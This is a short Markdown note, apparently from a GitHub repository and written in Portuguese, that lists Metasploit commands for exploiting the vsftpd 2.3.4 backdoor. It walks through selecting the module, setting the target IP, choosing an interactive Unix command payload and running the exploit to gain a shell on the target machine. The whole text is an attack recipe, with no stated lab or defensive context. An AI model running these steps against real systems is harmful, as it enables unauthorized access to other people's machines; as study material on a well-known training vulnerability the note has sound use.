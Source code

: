 # Metasploit

- use exploit/unix/ftp/vsftpd_234_backdoor
- set rhosts (ip => colocar o ip aqui) (esse ip tem que ser da maquina que você deseja de conectar)
- set payload payload/cmd/unix/interact
- show options (pra ver se o ip foi colocado corretamente e ver informações)
- exploit (se tudo estiver correto , com esse comando , será possível se conectar a maquina !)
